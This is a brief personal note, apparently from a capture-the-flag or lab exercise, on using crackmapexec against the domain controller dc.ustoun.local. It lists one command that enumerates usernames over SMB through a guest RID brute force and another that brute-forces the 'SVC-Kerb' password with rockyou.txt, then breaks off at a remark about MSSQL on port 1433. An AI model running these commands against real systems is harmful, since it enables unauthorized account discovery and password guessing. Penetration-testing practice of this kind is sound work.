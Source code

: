 # crackmapexec
Find usernames with the following:

```text-plain
crackmapexec smb dc.ustoun.local -u 'guest' -p '' --rid-brute
```

Brute force the user's password with:

```text-plain
crackmapexec smb dc.ustoun.local -u 'SVC-Kerb' -p 'rockyou.txt'
```

port 1433 is mssql,